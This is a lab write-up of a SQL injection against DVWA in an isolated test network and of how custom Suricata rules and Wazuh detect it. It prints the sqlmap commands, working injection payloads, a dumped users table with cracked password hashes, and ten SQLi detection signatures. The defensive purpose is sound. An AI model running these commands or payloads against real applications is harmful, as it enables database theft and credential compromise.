






# Scenario 03 — SQL injection on DVWA detected by custom Suricata rules

> **The attack that exposed a gap in our IDS — and forced us to write our own signatures.** This scenario demonstrates a complete SQL injection chain against DVWA using sqlmap, from vulnerability detection to credentials exfiltration. More importantly, it documents a real engineering problem we hit live: **the ETOpen ruleset does not include generic SQL injection signatures**, so we wrote 10 custom Suricata rules to fill the gap. The result: 331 Wazuh alerts in 80 seconds with full MITRE T1190 mapping, captured by both Suricata instances independently.

## TL;DR

| | |
|---|---|
| **MITRE technique** | [T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |
| **MITRE tactic** | TA0001 — Initial Access |
| **Attacker** | Kali — `10.10.10.51` (VLAN 10) |
| **Target** | DVWA on Ubuntu-DMZ — `http://10.10.30.50/vulnerabilities/sqli/` (DVWA Security: Low) |
| **Attack tool** | `sqlmap v1.10.2` (3 escalades: detection → enumeration → dump) |
| **HTTP requests sent** | **~3 900** in 80 s (peak ~48 req/s) |
| **Detection layer** | NIDS — Suricata × 2 instances on pfSense |
| **Wazuh rule chain** | decoder `pfsense-suricata` → rule `100200` (catch-all) → rule `100202` (web attack, **level 10, T1190**) |
| **Alerts captured** | **331** (split: 246 LAN `vtnet1` + 127 DMZ `vtnet3`) |
| **Custom Suricata SIDs** | 10 written (`9000001`–`9000010`), 5 actually triggered |
| **Compromise outcome** | 5 user credentials extracted from `dvwa.users`, all 5 password hashes cracked in clear text |
| **Headline finding** | **ETOpen's free ruleset has no generic SQLi signatures**. We documented that gap and closed it with 10 custom rules. The most prolific signature is the sqlmap User-Agent itself — **80 % of hits come from tool fingerprinting alone**, not payload analysis. |

## 1. Threat model

### 1.1 Attacker profile

The same actor as scenarios 01 and 02. They have completed reconnaissance (scenario 01) and SSH credential access via brute force (scenario 02). They now turn to the web tier: `http://10.10.30.50` exposes an Apache server with a vulnerable DVWA endpoint. Their objective is to compromise the database directly rather than continuing to escalate through SSH.

### 1.2 Attacker objective

Inject SQL into the `id` parameter of the DVWA SQLi page, escalate progressively from blind detection to full data extraction. End goal: dump the `users` table, recover the password hashes, crack them offline, and now possess legitimate web application credentials — a foothold that survives most rotations and looks innocuous in legitimate authentication logs.

### 1.3 Why detect this

SQL injection is the **#3 OWASP Top 10 vulnerability for 2021** and has been in the top 10 for two decades. A web-facing SQLi is one of the cheapest paths from "outside" to "data breach". The SOC must catch the **attack volume** (a real exploitation campaign sends thousands of requests in seconds) before exfiltration completes — typically within the first 60 seconds of the attack.

### 1.4 Pre-conditions in our lab

- DVWA deployed in Docker on the DMZ host, accessible at `http://10.10.30.50` (see [`04-dvwa.md`](../03-installation/04-dvwa.md))
- DVWA Security level set to **Low**
- Authenticated session via cookie (`PHPSESSID` + `security=low`)
- Suricata running on **both** the LAN interface (`vtnet1`) and the OPT2 interface (`vtnet3`)
- 10 custom Suricata rules deployed on **both** instances (see 3.2)
- Wazuh manager listening on UDP/514, custom rule `100202` deployed in [`configs/wazuh/local_rules.xml`](../../configs/wazuh/local_rules.xml)

## 2. Attack execution

### 2.1 Cookie setup

`sqlmap` needs the authenticated DVWA session to reach the vulnerable endpoint. We capture the cookie file with `curl`:

```bash
$ curl -s -c /tmp/dvwa-cookies.txt \
    -d "username=admin&password=password&Login=Login" \
    http://10.10.30.50/login.php -o /dev/null

$ cat /tmp/dvwa-cookies.txt

10.10.30.50   FALSE   /   FALSE   0   security    low
10.10.30.50   FALSE   /   FALSE   0   PHPSESSID   qedgrch66q9pf6hhfs3q9boc84
```

> Two cookies are required: `security=low` selects the vulnerable DVWA mode, `PHPSESSID` proves we are authenticated. Without both, every sqlmap request is redirected to `/login.php` (HTTP 302) and the scanner concludes "not injectable" — a failure mode we hit during development.

### 2.2 Escalade 1 — vulnerability detection

```bash
$ date
Sat Jun  7 02:18:45 AM CEST 2026

$ sqlmap -u "http://10.10.30.50/vulnerabilities/sqli/?id=1&Submit=Submit" \
         --cookie="security=low; PHPSESSID=qedgrch66q9pf6hhfs3q9boc84" \
         --batch --level=1 --risk=1 --flush-session

[...]
sqlmap identified the following injection point(s) with a total of 3899 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 9495=9495#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(8946,CONCAT(0x5c,0x71766b7671,(SELECT (ELT(8946=8946,1))),0x7176717a71))-- WSjE&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 7090 FROM (SELECT(SLEEP(5)))uLjP)-- uiqR&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x71766b7671,0x...,0x7176717a71),NULL#&Submit=Submit
---
[02:20:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
```

sqlmap confirms **four** distinct injection techniques work simultaneously on the `id` parameter. **Runtime: 80 seconds. HTTP requests sent: 3 899** (peak ~48 req/s). The backend is fingerprinted as MariaDB on Debian 9 + Apache 2.4.25.

### 2.3 Escalade 2 — database enumeration

```bash
$ sqlmap -u "..." --batch --dbs
available databases [2]:
[*] dvwa
[*] information_schema

$ sqlmap -u "..." --batch -D dvwa --tables
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

Two databases visible (the DVWA MySQL user lacks privileges to see `mysql` and `performance_schema`). Inside `dvwa`, the table `users` is the target.

### 2.4 Escalade 3 — credentials exfiltration + offline cracking

```bash
$ sqlmap -u "..." --batch -D dvwa -T users --dump
[20:00:47] [INFO] recognized possible password hashes in column 'password'
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[20:01:07] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:01:08] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[20:01:09] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[20:01:12] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
[20:01:22] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'

Database: dvwa
Table: users
[5 entries]
```



```
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
|    1    | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2026-06-04 01:42:30 | 0            |
|    2    | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2026-06-04 01:42:30 | 0            |
|    3    | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2026-06-04 01:42:30 | 0            |
|    4    | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2026-06-04 01:42:30 | 0            |
|    5    | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2026-06-04 01:42:30 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
```

**5 users, 4 unique hashes, 4 passwords cracked in plain text** in under one minute of dictionary attack. Note that `admin` and `smithy` share the same hash (`5f4dcc3b...` = `password`) — credential reuse, the most reliable indicator of weak password hygiene. An attacker now has lateral movement candidates that look innocuous in any web-app authentication log.

## 3. Detection mechanism

### 3.1 The ETOpen gap — and why custom rules were necessary

During this scenario's initial development, **no ETOpen signature triggered on sqlmap's actual payloads**. After enabling every plausible category (`emerging-web_specific_apps.rules`, `emerging-web_server.rules`, `emerging-sql.rules`), the only matching signature was `2024364 — ET SCAN Possible Nmap User-Agent Observed`, which fires on sqlmap because the string "nmap" happens to appear in some User-Agent regexes — a false-positive-friendly match, not a real SQLi detection.

The reason: **ETOpen, the free Emerging Threats ruleset, focuses on signatures for specific known vulnerable applications** (WordPress, Joomla, Drupal, phpBB, …) rather than generic SQLi patterns. Generic SQL injection detection is a paid Snort VRT / ETPro feature. For a self-hosted lab on open-source signatures alone, **the only way to detect generic SQLi is to write custom rules**.

This is documented as a known limitation across the IDS community — it is not specific to our setup. We close the gap with 10 custom Suricata rules.

### 3.2 The 10 custom Suricata rules

Deployed on **both** the LAN and DMZ Suricata instances via the pfSense web UI (Services → Suricata → Interfaces → edit each → Rules tab):

```suricata
# Generic SQLi patterns (OWASP Top 10 A03)
alert http any any -> any any (msg:"CUSTOM SQLI - UNION SELECT pattern detected"; flow:to_server,established;
  content:"UNION"; nocase; content:"SELECT"; nocase; distance:0;
  classtype:web-application-attack; sid:9000001; rev:2; metadata:mitre_attack_id T1190;)

alert http any any -> any any (msg:"CUSTOM SQLI - Boolean-based blind (OR-based)"; flow:to_server,established;
  content:"' OR "; nocase;
  classtype:web-application-attack; sid:9000002; rev:2; metadata:mitre_attack_id T1190;)

alert http any any -> any any (msg:"CUSTOM SQLI - Boolean-based blind (AND-based)"; flow:to_server,established;
  content:"' AND "; nocase;
  classtype:web-application-attack; sid:9000003; rev:2; metadata:mitre_attack_id T1190;)

alert http any any -> any any (msg:"CUSTOM SQLI - SQL comment injection"; flow:to_server,established;
  content:"'"; content:"--"; distance:0; within:50;
  classtype:web-application-attack; sid:9000004; rev:2; metadata:mitre_attack_id T1190;)

# sqlmap-specific patterns (hex obfuscation, EXTRACTVALUE, SLEEP)
alert http any any -> any any (msg:"CUSTOM SQLI - sqlmap hex obfuscation pattern"; flow:to_server,established;
  content:"0x71"; depth:200;
  classtype:web-application-attack; sid:9000005; rev:2; metadata:mitre_attack_id T1190;)

alert http any any -> any any (msg:"CUSTOM SQLI - Error-based EXTRACTVALUE"; flow:to_server,established;
  content:"EXTRACTVALUE"; nocase;
  classtype:web-application-attack; sid:9000006; rev:2; metadata:mitre_attack_id T1190;)

alert http any any -> any any (msg:"CUSTOM SQLI - Time-based blind SLEEP"; flow:to_server,established;
  content:"SLEEP("; nocase;
  classtype:web-application-attack; sid:9000007; rev:2; metadata:mitre_attack_id T1190;)

# Post-exploitation enumeration
alert http any any -> any any (msg:"CUSTOM SQLI - information_schema enumeration"; flow:to_server,established;
  content:"information_schema"; nocase;
  classtype:web-application-attack; sid:9000008; rev:2; metadata:mitre_attack_id T1190;)

alert http any any -> any any (msg:"CUSTOM SQLI - Database enumeration (CONCAT)"; flow:to_server,established;
  content:"CONCAT("; nocase;
  classtype:web-application-attack; sid:9000009; rev:2; metadata:mitre_attack_id T1190;)

# Tool fingerprint
alert http any any -> any any (msg:"CUSTOM SQLI - sqlmap User-Agent detected"; flow:to_server,established;
  content:"sqlmap"; nocase; http_user_agent;
  classtype:web-application-attack; sid:9000010; rev:2; metadata:mitre_attack_id T1190;)
```

Design notes:

- **`flow:to_server,established`** restricts matching to client → server payloads on established TCP sessions, eliminating noise from outgoing traffic or SYN-flood scenarios.
- **`http_user_agent` content modifier** on SID 9000010 means the rule inspects only the HTTP `User-Agent` header, not the request body — much faster and less noisy.
- **`metadata:mitre_attack_id T1190`** annotates the rule with its MITRE technique. Suricata's EVE JSON output preserves this metadata, and our Wazuh decoder propagates it.
- SIDs 9000001–9000004 catch **generic SQLi syntax**; 9000005–9000007 catch **sqlmap-specific obfuscation**; 9000008–9000009 catch **post-injection enumeration**; 9000010 catches **the tool itself**. Layered coverage from generic to tool-specific.

### 3.3 Wazuh rule chain

Same chain as scenario 01 — the custom rule `100202` triggers on any Suricata signature whose name contains SQL-related keywords:

```
pfSense syslog (UDP/514)
    ↓
decoder pfsense-suricata           ← prematch on "event_type":"alert"
    ↓
decoder pfsense-suricata-extract   ← PCRE2 extracts src_ip + signature + in_iface
    ↓
rule 100200 (level 5)              ← catch-all on every Suricata alert
    ↓
rule 100202 (level 10)             ← signature matches SQL|UNION|injection|XSS|WEB_SPECIFIC
    ↓
mitre.id = T1190 / Initial Access / Exploit Public-Facing Application
```

The custom rule's regex matches the **signature name** field, which is the `msg` of each Suricata rule. Because all 10 custom rules contain the literal string `CUSTOM SQLI`, every match propagates through to Wazuh rule `100202`. This is the smallest-change-possible integration: **zero Wazuh-side modification was required** to ingest the new custom signatures — they flow through the existing decoder and rule chain.

### 3.4 MITRE mapping — T1190

| Field | Value | Source |
|---|---|---|
| `rule.mitre.id` | `T1190` | Wazuh rule `100202` `<mitre>` tag (custom) |
| `rule.mitre.tactic` | `Initial Access` | Wazuh built-in MITRE database |
| `rule.mitre.technique` | `Exploit Public-Facing Application` | Wazuh built-in MITRE database |

T1190 is the canonical MITRE technique for SQL injection. Note that this tactic — **Initial Access** — is *upstream* from the credential access (T1110/T1110.001) and execution (T1059) tactics observed in scenario 02. In a single dashboard, an analyst sees the **complete kill chain** spanning four MITRE tactics across three scenarios:

```
Scenario 01:  Reconnaissance     (T1595)
Scenario 02:  Credential Access  (T1110, T1110.001)
              Initial Access     (T1078 via Cowrie)
              Execution          (T1059)
Scenario 03:  Initial Access     (T1190 — web app)
```

## 4. Evidence collected

### 4.1 Lifetime counts and split by interface

After the three escalades completed at `00:20:35 UTC`:

```bash
$ for rid in 100200 100201 100202 100203; do
    cnt=$(sudo grep -c "\"id\":\"$rid\"" /var/ossec/logs/alerts/alerts.json)
    echo "rule $rid : $cnt hits"
  done
rule 100200 : 0 hits
rule 100201 : 0 hits
rule 100202 : 331 hits
rule 100203 : 63 hits
```

**331 rule-`100202` hits + 63 rule-`100203` hits = 394 alerts** in the attack window. The catch-all `100200` does not fire because every event already matches a more specific child rule (`100202` or `100203`).

Split by Suricata instance:

```bash
$ sudo tail -10000 /var/ossec/logs/alerts/alerts.json | \
    jq -r --arg now "$(date -u -d '10 min ago' +%Y-%m-%dT%H:%M:%S)" \
    'select(.timestamp > $now) | select(.full_log // empty) | .full_log' | \
    grep -oE '"in_iface":"vtnet[13]"' | sort | uniq -c
   246 "in_iface":"vtnet1"
   127 "in_iface":"vtnet3"
```

| Interface | Vantage point | Hits | Share |
|---|---|---|---|
| `vtnet1` (LAN) | Attacker-side | 246 | **66 %** |
| `vtnet3` (DMZ) | Destination-side | 127 | **34 %** |
| | | **373** | **100 %** |

Unlike scenario 01 (Nmap) which produced a **perfectly balanced** 4/4 split, scenario 03 shows an **asymmetric** 2:1 split in favour of LAN. The cause is HTTP-specific: TCP retransmissions, sqlmap's 4 parallel sockets, and connection pooling are all visible on the LAN side **before** they reach the DMZ. Some packets that LAN_Suricata sees as distinct events are coalesced by the time they reach DMZ_Suricata. This is honest behaviour for two NIDS sensors at different points in the path — both detected the attack, neither was deceived, but the count differs because the *physical traffic shape* differs at each vantage point.

### 4.2 Top signatures fired

```bash
$ sudo tail -10000 /var/ossec/logs/alerts/alerts.json | \
    jq -r --arg now "$(date -u -d '10 min ago' +%Y-%m-%dT%H:%M:%S)" \
    'select(.timestamp > $now) | select(.data.signature // empty) | .data.signature' | \
    sort | uniq -c | sort -rn

   264 CUSTOM SQLI - sqlmap User-Agent detected           ← SID 9000010
    33 ET INFO GNU/Linux APT User-Agent Outbound likely related to package management
    27 CUSTOM SQLI - UNION SELECT pattern detected         ← SID 9000001
    25 CUSTOM SQLI - sqlmap hex obfuscation pattern        ← SID 9000005
    14 CUSTOM SQLI - information_schema enumeration         ← SID 9000008
     9 ET INFO [eSentire] Possible Kali Linux Updates
     1 CUSTOM SQLI - Error-based EXTRACTVALUE              ← SID 9000006
```

**Five of our ten custom rules triggered.** The remaining five (`9000002` OR-based, `9000003` AND-based, `9000004` comment injection, `9000007` SLEEP, `9000009` CONCAT) did not fire — most likely because sqlmap's payload obfuscation (hex-encoded strings, MySQL-comment terminators `--`) interferes with the literal-content matching of those rules. They will fire on simpler payloads from less sophisticated attackers, which is the intended coverage band for those rules.

**The dominant signature (264 / 331 = 80 %) is the User-Agent fingerprint**, not the SQL syntax. This is a critical insight discussed in § 5.2.

### 4.3 Wazuh Dashboard evidence

Filter `rule.id: 100202 or 100203 and data.src_ip: "10.10.10.51"`, last 20 minutes:



The histogram shows a **concentrated burst at `02:20`** (the moment sqlmap's escalade 1 completed) with secondary smaller bursts before and after corresponding to escalades 2 and 3. Total: 394 hits. Visible inline in the `_source` columns: `rule.mitre.id: T1190`, `rule.mitre.tactic: Initial Access`, `rule.mitre.technique: Exploit Public-Facing Application`, `data.signature: CUSTOM SQLI - …`.

Per-alert detail — **LAN sensor** (`predecoder.hostname: suricata[97807]`, `in_iface: vtnet1`):



```
rule.description     : Suricata WEB ATTACK: CUSTOM SQLI - sqlmap hex obfuscation pattern from 10.10.10.51
rule.firedtimes      : 330
rule.level           : 10
rule.id              : 100202
rule.groups          : suricata, ids, nids, web_attack, attack
rule.mitre.id        : T1190
rule.mitre.tactic    : Initial Access
rule.mitre.technique : Exploit Public-Facing Application
data.signature       : CUSTOM SQLI - sqlmap hex obfuscation pattern
data.src_ip          : 10.10.10.51
full_log             : suricata[97807]: {"in_iface":"vtnet1","src_ip":"10.10.10.51",
                       "dest_ip":"10.10.30.50","dest_port":80,
                       "alert":{"signature_id":9000005,"signature":"CUSTOM SQLI - sqlmap hex obfuscation pattern"},
                       "tx_guessed":true,...}
```

Per-alert detail — **DMZ sensor** (`predecoder.hostname: suricata[88537]`, `in_iface: vtnet3`):



```
rule.description     : Suricata WEB ATTACK: CUSTOM SQLI - sqlmap User-Agent detected from 10.10.10.51
rule.firedtimes      : 309
rule.level           : 10
rule.id              : 100202
rule.mitre.id        : T1190
data.signature       : CUSTOM SQLI - sqlmap User-Agent detected
full_log             : suricata[88537]: {"in_iface":"vtnet3","src_ip":"10.10.10.51",
                       "dest_ip":"10.10.30.50","dest_port":80,
                       "alert":{"signature_id":9000010,"signature":"CUSTOM SQLI - sqlmap User-Agent detected"},
                       ...}
```

Side by side, the two screenshots confirm: same `src_ip` → `dest_ip` 5-tuple direction, same MITRE T1190 mapping, two distinct Suricata processes (pid 97807 vs 88537), two distinct interfaces (`vtnet1` vs `vtnet3`), two different signatures triggered on the same HTTP exchange. Defense in depth proven by logs, not by claim.

**MITRE ATT&CK pane** — Initial Access column lit on T1190:



372 hits visible in the pane, all mapped to `T1190 / Initial Access / Exploit Public-Facing Application`. The histogram peak at `02:20` matches the Discover view above.

**pfSense Suricata Alerts** view — the same data, viewed from the IDS source:



Visible: alternating `1:9000010` (sqlmap UA), `1:9000005` (hex obfuscation), `1:9000001` (UNION SELECT), `1:9000008` (information_schema enumeration). All classified `Web Application Attack` priority 1.

### 4.4 Raw alerts.log excerpt

```
** Alert 1780791615.301584: - suricata,ids,nids,web_attack,attack,
2026 Jun 07 00:20:15 wazuh-server->10.10.40.1
Rule: 100202 (level 10) -> 'Suricata WEB ATTACK: CUSTOM SQLI - sqlmap User-Agent detected from 10.10.10.51'
Jun  7 02:20:15 suricata[88537]: {"timestamp":"2026-06-07T02:20:14.918216+0200","flow_id":1890226428795813,
"in_iface":"vtnet3","event_type":"alert","src_ip":"10.10.10.51","src_port":58408,
"dest_ip":"10.10.30.50","dest_port":80,"proto":"TCP",
"alert":{"action":"allowed","gid":1,"signature_id":9000010,"rev":2,
         "signature":"CUSTOM SQLI - sqlmap User-Agent detected",
         "category":"Web Application Attack","severity":1},
"app_proto":"http","direction":"to_server"}
src_ip: 10.10.10.51
signature: CUSTOM SQLI - sqlmap User-Agent detected
mitre.id: ["T1190"]
mitre.tactic: ["Initial Access"]
mitre.technique: ["Exploit Public-Facing Application"]
```

## 5. Analysis

### 5.1 Detection coverage breakdown

Of the **331 web-attack alerts**, the contribution by SID is:

| SID | Signature | Hits | % of total |
|---|---|---:|---:|
| `9000010` | sqlmap User-Agent | 264 | **80 %** |
| `9000001` | UNION SELECT | 27 | 8 % |
| `9000005` | sqlmap hex obfuscation | 25 | 8 % |
| `9000008` | information_schema enumeration | 14 | 4 % |
| `9000006` | Error-based EXTRACTVALUE | 1 | 0.3 % |

**The bulk of detection is the tool fingerprint**, not the SQL content. This is honest and worth interrogating.

### 5.2 The 80 % UA fallacy — and why we still need it

A reasonable critique of the result above: "if 80 % of hits come from the User-Agent, an attacker who customises their UA (`sqlmap --random-agent`) would evade most detection."

This is true, but the argument cuts both ways:

- **In the worst case** (attacker masks UA), we still detect **67 hits** from content-based signatures (`9000001` UNION, `9000005` hex, `9000006` EXTRACTVALUE, `9000008` info_schema). The detection drops from 331 to 67 — a 5× degradation, but **not zero**. The SOC still gets an alert.
- **In practice**, most attackers do *not* customise their UA. Empirical observation across honey-data feeds (e.g., Greynoise, AbuseIPDB) shows that 70–90 % of automated scanning traffic carries default tool UAs. **The "cheap" signature catches the bulk of real-world traffic.**
